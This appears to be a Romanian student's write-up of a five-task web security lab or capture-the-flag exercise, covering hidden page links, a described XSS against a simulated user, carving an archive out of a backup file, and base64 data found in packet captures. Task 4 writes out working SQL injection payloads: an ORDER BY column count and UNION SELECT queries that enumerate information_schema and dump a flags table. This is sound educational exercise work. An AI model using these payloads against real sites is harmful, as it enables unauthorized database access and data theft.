 # MARIN MARIUS DANIEL 332CC

### Task1
- ne conectam la dev-machine folosind `./connect.sh` iar apoi vedem ce adresa ip avem
- scanam porturile disponibile si vedem un `port deschis de http` la o adresa ip
- luam adresa ip si portul de http si le dam in scriptul de `./webtunnel.sh` pentru a ne
conecta pe web la `localhost:8080`
- pe site observam ca pagina de register e fake, si cautam cu inspect element in codul
sursa al site ului si vedem ca link ul bun este `/auth/register_real_one`
- ne facem cont, ne conectam si cautam iar cu inspect element in codul sursa al site
ului si gasim flagul

### Task2
- din hint uri si analiza sursei paginii web observam faptul ca putem comunica cu pisica
boss prin nyan cat (avem XSS simulators doar pentru ei)
- daca ne uitam in main.js observam niste functii pe care am putea sa le apelam ca sa
rezolvam acest task
- logica este aceea de a-i trimite lui nyan cat un mesaj care sa contina un script pe care
sa il trimita pentru a fi executat de catre boss (acesta sa apeleze addFriendRequest cu id ul
nostru)

### Task3
- avem la boss in pagina un hint cu scriptul `backup.sh` care trebuie luat de pe pagina
- observam ca scriptul combina 2 arhive intr una singura si ii pune numele cu o data
generata random intr un interval
- odata luata arhiva, se inspecteaza cu un tool pentru a vedea offset ul headerelor cum
ar fi `binwalk`
- se extrage cu tail offsetul arhivei flag, care se dezarhiveaza si astfel avem acces
la fisierul `flag.txt`

### Task4
- se testeaza manual url-urile site ului si se fac incercari de SQL injection pana se 
observa ca vulnerabilitatea este la adresa `http://localhost:8080/inside/p/`
- se incearca aflarea nr de coloane printr un payload care primeste ca arg nr coloanei
pentru a vedea la ce index apare eroarea (ex: ' order by X -- ;)
- se trimit mai multe atacuri pentru a afla informatia pas cu pas:
1. se observa ca se afiseaza informatia la userul 3 si apar duplicate => distinct
' union select distinct 1, 2, group_concat(distinct(table_schema)), 4, 5, 6, 7, 8
from information_schema.tables -- ;
  observam web_270
2. ' union select distinct 1, 2, group_concat(table_name), 4, 5, 6, 7, 8 from 
information_schema.tables where table_schema='web_270' -- ;
  observam flags64173
3.' union select 1, 2, group_concat(column_name), 4, 5, 6, 7, 8
from information_schema.columns where table_schema='web_270' and table_name='flags64173' -- ;
  observam zaflag
4.' union select 1, 2, zaflag, 4, 5, 6, 7, 8 from flags64173 -- ;
  observam flag ul

### Task5
- se scaneaza traficul cu tcpdump si se observa ca anumite pachete contin `NYAN.NYAN..`
- se ia partea dintre NYAN si se decodifica cu `base64`
